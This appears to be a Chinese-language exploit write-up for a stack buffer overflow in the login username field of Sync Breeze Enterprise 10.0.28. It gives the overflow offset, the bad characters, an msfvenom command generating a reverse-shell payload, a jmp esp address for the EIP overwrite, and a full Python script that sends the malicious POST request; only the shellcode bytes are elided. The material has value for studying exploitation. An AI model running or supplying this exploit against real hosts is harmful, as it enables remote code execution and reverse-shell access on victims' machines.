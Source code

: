 ```yaml
---
layout: default
---
```


# Sync Breeze Enterprise 10.0.28 栈溢出漏洞分析
## 1.确定溢出位置


> syncbrs.exe 使用http post进行登录请求时未判断username长度进行字符串拷贝操作,从而导致栈溢出.

>  1.1: 分配了30CH的栈空间用于存储数据，然后使用EAX将栈空间地址传递给解析函数.

![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/46203376cde14417b64e965ff0f9adce.jpeg#pic_center)

>  1.2： 调用libpal.dll中的GetField解析参数取出username并复制到指定栈地址空间上.(**此处产生溢出**)

![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/bc8f65b6f09e43f29c436e4cc109e981.jpeg#pic_center)
 ## 2. 生成shellcode
 

	大概流程如下:
```c
2.1 根据上面分析其实己经得知分配的栈空间=30CH. (shellcode前填充字节数己确定)
2.2 确定一下bad characters: \x00\x0a\x0d\x25\x26\x2b\x3d
2.3 使用msfvenom 生成shellcode:
-----------------------------------
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


## 3. 查找一个jmp esp地址

> 大概流程如下:

```c
3.1 找到所有载入模块
3.2 遍历每一个模块IMAGE_OPTIONAL_HEADER中DllCharacteristics不能使用ASLR
3.3 查找是否包含jmp esp的opcode: FFE4
3.4 找到的地址是否包含bad characters,如果包含则不能使用
----------------------------------
libspp.dll 0x10090c83地址符合所有条件.
```
## 4.注入

> <font color=red>注意:</font> 
>	生成shellcode为了不使用bad characters而使用了编码,那自然需要解码.
>而解码代码需要知道需要解码的代码所在地址,这里需要使用到GetPC.
>
解码代码如下:
```c
mov 	edi,46BD1770h
fcmovu 	st,st(6)		
fnstenv	[esp-0Ch]		;保存fpu环境
pop 	esi				;得到fcmovu这条指令执行的地址
sub 	ecx,ecx
mov 	cl,52h
xor 	dword ptr [esi+12h],edi
sub		esi,0FFFFFFFCh
....
```
> fnstenv指令会将以下的结构体数据保存在堆栈上: 
> 其中FIP保存了上一条FPU指令的地址,本例中为:fcmovu
> ![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/6b2d00fc049c478e8cbf1f785c236789.jpeg#pic_center)

> 既然fnstenv会使用栈空间,那么可能会对注入的shellcode产生影响.
> 所以这里需要对内存进行一些处理,这里使用nop.![在这里插入图片描述](./Sync_Breeze_Enterprise_10.0.28_Remote_Buffer_Overflow_res/a231719354df475dac26345dfb3b7eec.jpeg#pic_center)
> 
> <font color=red>栈空间加了12个nop来处理,虽然01aa7468地址处的数据还是被覆盖了,但是这里的代码己经执行过了,所以不会有影响</font>

## 5.总结

```c
主要是注意一下生成的shellcode使用的GetPC是哪种方式,注意栈空间是否会被破坏. 
```

## 注入代码参考

```python
#!/usr/bin/python
import socket
import sys

try:
  server = sys.argv[1]
  port = 80
  filler = b"A" * 780
  eip = b"\x83\x0c\x09\x10" #0x10090c83  
  offset = b"C" * 4
  nops = b"\x90" * 12
  shellcode = b"........................."

  shellcode+= b"D" * (1500 - len(filler) - len(eip) - len(offset) - len(shellcode))
  inputBuffer = filler + eip + offset + nops + shellcode
  content = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + server.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += content

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")

```
